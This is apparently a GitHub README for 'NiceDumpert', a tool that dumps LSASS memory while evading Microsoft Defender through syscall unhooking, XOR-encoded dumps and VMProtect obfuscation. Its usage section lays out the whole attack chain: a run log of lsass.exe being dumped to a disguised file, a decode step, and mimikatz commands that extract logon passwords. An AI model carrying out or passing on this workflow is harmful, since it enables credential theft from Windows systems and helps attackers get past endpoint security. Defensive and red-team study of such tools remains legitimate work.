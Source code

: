 # NiceDumpert
A simple and hybrid LSA dump tool, combining **NiceKatz** and **Dumpert** to bypass **Defender**.

# Features
- Multi-platform Syscall/Unhook from Dumpert
- MinidumpWriteDump Callback(*with xor encode*) from NiceKatz
- Mutation and Virtualization from VMProtect

# Build Platform
- Windows SDK Version: 10.0.22000.0
- Platform Toolset: Visual Studio 2022(v143)
- C++ Language Standart: 14

# Usage
- Dump
```
C:\Project>NiceDumpert.vmp.exe
[1] Checking OS version details:
        [+] Operating System is Windows 10 or Server 2016, build number 19044
        [+] Mapping version specific System calls.
[2] Checking Process details:
        [+] Process ID of lsass.exe is: 772
        [+] NtReadVirtualMemory function pointer at: 0x00007FFA8ACAD890
        [+] NtReadVirtualMemory System call nr is: 0x3f
        [+] Unhooking NtReadVirtualMemory.
[3] Create memorydump file:
        [+] Open a process handle.
[+] Dumping PID 772 via MiniDumpWriteDump
[+] Target process has been dumped to memory successfully
[+] Writing process dump to disk
[+] Process dump of PID 772 written to outfile: vKcyDX.pnk
        [+] Dump succesful.
```

- Decode
```python
python decode.py vKcyDX.pnk out.dmp
[*] vKcyDX.pnk XOR b'K'
[*] Saved to out.dmp.
```

- MimiDump
```
mimikatz # sekurlsa::minidump out.dmp
mimikatz # sekurlsa::logonpasswords
```

# Shout Out
to the following projects:
- [Dumpert](https://github.com/outflanknl/Dumpert)
- [NiceKatz](https://github.com/0xDeku/NiceKatz)
